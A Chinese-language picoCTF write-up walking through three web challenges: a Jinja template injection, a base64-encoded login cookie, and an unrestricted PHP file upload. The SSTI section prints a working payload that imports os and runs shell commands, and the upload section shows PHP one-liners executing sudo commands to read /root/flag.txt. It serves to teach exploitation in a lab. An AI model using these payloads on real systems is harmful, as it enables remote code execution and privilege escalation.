

# Introduction
這是拿來放一些解題ㄉ紀錄，慢慢邊做邊寫，因為我好久沒碰了
有些有有些沒有是因為有些我已經解過ㄌ，我也懶得再解一次


## SSTI1
首先你會看到一個酷酷的網站，有一個輸入框，你會發現不論輸入啥他都會顯示在頁面上，我們可以試試看輸入```{{7*7}}```  會得到什麼

沒錯!一個大大的49，這就是一個SSTI的漏洞，這個漏洞可以讓我們執行python的程式碼，接下來我們可以試試看```{{7*7*7*7}}``` 會得到什麼

這時我們已經確定這是一個SSTI的漏洞了，接下來我們可以來點更有趣的東西，他可以執行python的程式碼，因此應該可以執行一些系統命令
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

這段程式碼大概的意思是
- ```request.application```: 訪問當前Web請求的應用

- ```__globals__```: 訪問全局命名空間，允許獲取內建函式

- ```__import__('os')```: 動態導入 os 模塊，這樣就可以使用操作系統相關功能

- ```popen('id')```: 執行系統命令 id，該命令顯示當前用戶的身份

- ```read()```: 讀取命令的輸出結果  
那我們可以把命令改成，ls來看看有沒有什麼驚喜，聽話讓我看看!
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

最後只要試試看
```
python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
我們就會得到flag了!  
picoCTF{||幹嘛，你要自己去試試看阿!還想偷看阿hhhhhhhhhhhhhhh||}  


## Cookie Monster Secret Recipe
首先我們看到網站，並且檢查F12->儲存空間->Cookies看看裡面有沒有東西，啥都沒有  

我們可以嘗試登入一下，帳號密碼隨意，哎呀看起來有問題

我們可以再看一次Cookies，看看有沒有東西
看起來有東西出現!

看起來長得有點像是base64編碼的東西，我們可以試試看丟到解碼的網站看看
得到答案啦!

- FLAG
  - ||picoCTF{自己去試試看啦hahahahahahahahha}||


## n0s4n1ty 1
首先我們看到網站可以上傳檔案，先上傳看看一個php檔案看看譨不能傳PNG以外的東西
提示中說要重點針對```sudo -l```，那我們就嘗試在php中執行看看
```php
<?php echo exec('sudo -l');?>
```
上傳之後顯示，讓我們去看看```uploads/owo.php```有甚麼東西
```
The file owo.php has been uploaded Path: uploads/owo.php 
```

既然可以執行指令那我們就可以嘗試看看root資料夾下面有沒有什麼驚喜
```php
<?php echo exec('sudo ls -al /root ');?>
```
再次訪問網站並且去到```uploads/owo.php```會顯示
```bash
-rw-r--r-- 1 root root 36 Mar 6 03:56 flag.txt
```
那我們可以喵喵一下把檔案內容顯示出來!
```php
<?php echo exec('sudo cat /root/flag.txt');?>
```
哎呀又找到ㄌ
- FLAG
  - picoCTF{||aaaaaaaaaaa自己去試試看啦||}

